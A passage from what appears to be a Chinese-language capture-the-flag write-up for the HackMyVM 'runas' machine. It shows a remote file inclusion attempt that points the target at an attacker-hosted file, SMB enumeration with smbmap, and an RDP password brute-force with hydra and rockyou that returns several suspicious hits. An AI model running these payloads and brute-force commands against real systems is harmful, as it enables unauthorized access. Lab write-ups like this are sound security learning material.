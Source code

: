 试一下远程文件包含
```
http://192.168.56.20/index.php/login/?file=http://192.168.56.6/1.txt
```
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241126210445.png)
失败了


```

### 2.4. SMB空会话检测
靶机开放了SMB 的端口 445 与139
```bash
┌──(root㉿kali)-[/home/kali/hmv/runas]
└─# smbmap -u anonymous -H 192.168.56.20

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 0 SMB session(s)

```

### 2.4. rdp爆破
除了80 139 445 网站还开放了3389
这是rdp的端口
尝试爆破
用户名字一般都是靶机的名字
```bash
┌──(root㉿kali)-[/home/kali/hmv/runas]
└─# hydra -l runas  -P  /usr/share/wordlists/rockyou.txt 192.168.56.20 rdp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-26 21:06:11
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking rdp://192.168.56.20:3389/
[3389][rdp] host: 192.168.56.20   login: runas   password: 123456789
[3389][rdp] host: 192.168.56.20   login: runas   password: password
[3389][rdp] host: 192.168.56.20   login: runas   password: 123456
[3389][rdp] host: 192.168.56.20   login: runas   password: 12345
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-26 21:06:16

```
看来网址果然是个坑
